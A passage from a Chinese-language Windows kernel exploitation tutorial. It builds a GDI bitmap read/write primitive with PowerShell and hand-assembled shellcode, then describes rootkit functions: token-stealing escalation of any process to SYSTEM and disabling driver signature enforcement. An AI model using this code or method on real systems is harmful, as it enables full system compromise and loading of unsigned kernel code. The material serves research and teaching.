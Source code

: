 有了执行任意的shellcode的能力，我选择了一个GDI bitmap原语，能使我们获得在内核中永久性的读写的能力，而不用一遍又一遍的调用驱动。为了创建bitmap，我使用[Stage-gSharedInfoBitmap](https://github.com/FuzzySecurity/PSKernel-Primitives/blob/master/Stage-gSharedInfoBitmap.ps1)，并且使用下面的形式构建了shellcode。



```
# Leak BitMap pointers
echo "`n[&gt;] gSharedInfo bitmap leak.."
$Manager = Stage-gSharedInfoBitmap
$Worker = Stage-gSharedInfoBitmap
echo "[+] Manager bitmap Kernel address: 0x$("{0:X16}" -f $($Manager.BitmapKernelObj))"
echo "[+] Worker bitmap Kernel address: 0x$("{0:X16}" -f $($Worker.BitmapKernelObj))"
# Shellcode buffer
[Byte[]] $Shellcode = @(
    0x48, 0xB8) + [System.BitConverter]::GetBytes($Manager.BitmappvScan0) + @( # mov rax,$Manager.BitmappvScan0
    0x48, 0xB9) + [System.BitConverter]::GetBytes($Worker.BitmappvScan0)  + @( # mov rcx,$Manager.BitmappvScan0
    0x48, 0x89, 0x08,                                                          # mov qword ptr [rax],rcx
    0xC3                                                                       # ret
)
```

这个技术的更多细节能在[@mwrlabs](https://twitter.com/mwrlabs)的标题[A Tale Of Bitmaps: Leaking GDI Objects Post Windows 10 Anniversary Edition](https://labs.mwrinfosecurity.com/blog/a-tale-of-bitmaps/)和我的Windows利用开发教程系列的[part 17](http://www.fuzzysecurity.com/tutorials/expDev/21.html)中找到。

<br>

**0x03 Rootkit功能**

现在我们有了内核中任意读写的能力，我们能开始完成我们的rootkit功能。我决定集中在两个不同的功能上：

1. 将任意读写的PID提升到SYSTEM权限

2. 在运行时禁用强制驱动签名，以便在内核中加载未签名的代码

**任意进程提权**

我们需要遍历EPROCESS结构链表，复制SYSTEM的EPROCESS令牌字段，并且使用这个值覆盖目标进程的EPROCESS结构。没有任何现成的漏洞，我们实际上可以在用户层泄漏一个指针指向System（PID 4）的EPROCESS入口。

[![](./img/85684/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0147e2eecba5505789.png)

应该注意，使用SystemModuleInformation能泄漏当前加载的NT内核的基址，	只在Windows8.1后的中等完整进程中起作用。我们能在Powershell简单实现这个过程，使用Get-LoadedModules，并在KD中验证我们的结果。

[![](./img/85684/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0100a6caa0095fd75e.png)

[![](./img/85684/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0108c32e2f36822759.png)

因此我们有了一种方法，来得到System的EPROCESS结构的指针，并使用我们的bitmap原语我们能够简单的读取与那个进程相关的SYSTEM令牌。最后一件事，我们需要遍历ActiveProcessLinks链表，来找到我们想要提权的进程的EPROCESS结构。列表结构如下（Windows 10 x64）。

[![](./img/85684/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01e487ec7551f09c3d.png)

这个列表是个双向循环列表。简单来说，我们将使用我们的bitmap原语来读取当前EPROCESS结构的PID，如果匹配了PID，我们将覆盖这个进程的令牌，如果不能匹配，我们从ActiveProcessLinks-&gt;Flink读取下个EPROCESS结构的地址，并重复。
